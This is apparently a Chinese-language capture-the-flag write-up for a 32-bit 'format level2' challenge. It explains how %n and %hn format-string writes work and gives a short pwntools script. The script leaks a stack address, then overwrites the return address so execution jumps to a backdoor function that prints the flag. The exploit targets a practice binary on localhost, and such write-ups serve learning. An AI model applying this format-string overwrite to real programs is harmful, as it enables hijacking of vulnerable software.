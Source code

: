 ```yaml
---
title: format level2
date: 2023/9/26 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`format_level2`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

这次打龙不能拿到flag了，但是后门函数还在，可以考虑通过写入返回地址，
跳转到后门函数处输出flag

前置知识：  
%n -> `int_32 *`; %hn -> `int_16 *`; %hhn -> `int_8 *`  
%n只能修改输入的字符串中存在的值  
可以通过%??d来控制已打印字符的数量

查看源代码，发现后门函数地址和返回地址差2个字节，可以采用%hn  
首先talk，找到返回地址，然后再talk，将后门函数写到返回地址里实现攻击

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 42673)

# payload 1
sh.sendline(b'3') # talk with dragon
sh.sendline(b'%14$p') # leak rbp value to get ret after shifting

ret = int(sh.recvuntil(b'\nBut', True)[-10:], 16) - 0x68 + 0x4c # ignore '\nBut' to get pure addr, and shift addr to ret

# payload 2
sh.sendline(b'3') # talk with dragon
sh.sendline(p32(ret) + b'%37651d%7$hn') # ret占4，0x9317 == 37651 + 4

sh.interactive()
```

Done.

